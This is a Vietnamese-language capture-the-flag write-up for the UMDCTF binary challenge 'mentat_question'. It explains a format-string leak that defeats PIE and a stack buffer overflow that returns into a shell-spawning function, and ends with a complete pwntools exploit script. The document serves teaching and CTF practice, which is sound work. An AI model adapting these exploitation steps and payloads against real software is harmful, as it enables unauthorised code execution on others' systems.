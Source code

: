 # Challenge: mentat_question
## Description

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/e397fe32-f9bc-43da-bbb7-e8d85e5532f0)

## Source 
> mentat_question

> mentat_question.cpp

> Dockerfile

## Solution

Đầu tiên hãy xem thử source code C++:

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/3074f806-29c2-4987-8bb9-9a1a5cadf5f1)

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/c0c78e0a-36be-4f3c-83ec-8dd75c00e334)

Ở đây chúng ta có 2 lỗi: Buffer overflow (dòng 19, trong hàm calculate) và Format string (dòng 22, trong hàm calculate).

Hàm secret() cho chúng ta 1 cái shell. Một bài ret2win.
Tiếp theo hãy kiểm tra file thực thi bằng checksec

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/86d80200-a24f-46f4-ae06-f16ed6ec1629)

Được bảo vệ bằng PIE -> Muốn return về hàm secret() thì chúng ta phải biết được địa chỉ code base -> Có thể leak bằng Format string.

Vậy ý tưởng của bài này là, đầu tiên tận dụng Format string trong hàm calculate để lấy được code base, tính toán ra địa chỉ của secret(). Sau đó, lại nhảy vào hàm calculate lần nữa. Lần này là để dùng Buffer overflow, ghi đè địa chỉ trả về trên stack của hàm calculate thành địa chỉ của secret() -> Lấy được shell -> cat flag.txt -> Win. Bắt đầu thôi!

Để "vào" được hàm calculate() mà cụ thể hơn là dòng 22 (nơi có lỗi Format string), thì chúng ta cần input:
- Với num1, bạn có thể nhập số nào cũng được, miễn là không âm.
- Với num2, nếu bạn xem qua If (dòng 16) sẽ thấy num2 phải bé hơn (<) 1. Mà num2 lại không âm -> num2 = 0. Nhưng xem lại If ở dòng 55 thì sẽ thấy nó check kí tự đầu của input (cho num2), nếu bằng 0 thì return luôn. Cái này có thể dễ dàng vượt qua bằng cách nhập 1 kí tự bất kì khác với kí tự "0" + kí tự "0" ví dụ "a0". Nó sẽ check và thấy: à ok "a" khác "0" -> pass, sau đó num2 = atoi(...) -> num2 = 0.
- Sau khi nhập xong num1, num2. Để có thể thực thi câu lệnh có lỗi Format string, ta cần pass 3 kí tự đầu là "Yes", sau đó là tùy ý ("%p" chẳng hạn). Lưu ý là có 1 câu lệnh getc() ở dòng 54, nên trong code giải tôi sẽ thêm 1 kí tự bất kì trước Yes ^^ Đừng bận tâm.
- Ok để leak thì chúng ta cần xem xem stack nó có cái giá trị nào mà mình có thể tận dụng được không. Hãy dùng GDB (set breakpoint ở câu lệnh printf(buf))

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/7ea835ed-945f-4ba6-bfaa-7681c989bd83)

- Format string là 1 lỗi khá là "quyền năng". Tôi sẽ leak cái giá trị trên địa chỉ **+0x0028**.
- Vậy chúng ta sẽ dùng "%**x**$p". Nhưng **x** là bao nhiêu. Cái này liên quan đến x86-64 calling convention. Tức là: ví dụ printf("%p %p %p %p %p %p"). Thì nó sẽ in lần lượt tương ứng với mỗi %p là giá trị trên thanh ghi rsi, rdx, rcx, r8, r9. Khi thanh ghi bị dùng hết thì mới đến các giá trị trên stack. Tức là %p thứ 6 sẽ là giá trị trên stack.

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/9bf57551-e4b6-47d3-9d99-3174cdcb55bd)


![image](https://github.com/sangnguyenthien/CTF/assets/89742084/4d0d72d3-c792-4424-b6ae-da28a1f7c276)


Chúng ta sẽ bắt đầu đếm **x** với địa chỉ **+0x0000** bắt đầu **x**=6 -> đến **+0x0028** thì **x** sẽ bằng 11. -> Thứ chúng ta cần input là "0Yes %11$p"

Trên GDB, gõ "ni".

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/4de0f903-89a6-41b6-b11c-7b31e340de27)

Oke, đúng rồi.
Việc còn lại chỉ là tính toán địa chỉ code base -> địa chỉ secret() và ghi đè.

 

**Code giải:**

Bạn có thể dùng cyclic để tính offset sau đó ghi đè return address của hàm calculate. Ở trong code giải thì tôi có cho thêm một cái "ret" gadget trước khi gọi system() để căn chỉnh stack (Về địa chỉ của "ret" thì mọi người có thể dùng ropper hoặc ROPGadget để tìm).

Stack Alignment: https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment

```python
from pwn import *


#pwn/mentat-question
#UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}

context.binary = exe = ELF("./mentat-question")

#p = process(exe.path)
p = remote("challs.umdctf.io", 32300)

input()

p.sendlineafter(b"today?\n", b"Division")

p.sendlineafter(b"divided?", b"6")

p.sendline(b"a0")

p.sendline(b"0Yes %11$p")

p.recvuntil(b"Yes ")

leak_addr = int(p.recvuntil(b" I heard", drop=True), 16)

print(hex(leak_addr))

base_addr = leak_addr - (0x55555555545c-0x0000555555554000)
print(hex(base_addr))

secret_addr = base_addr + 0x11d9
ret_gadget = base_addr + 0x101a
p.sendline(b"6")
p.sendline(b"a0")

payload = b"0Yes "
payload += b"A"*20
payload += p64(ret_gadget)
payload += p64(secret_addr)
#payload += b"aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaa"

p.sendline(payload)
p.interactive()
```



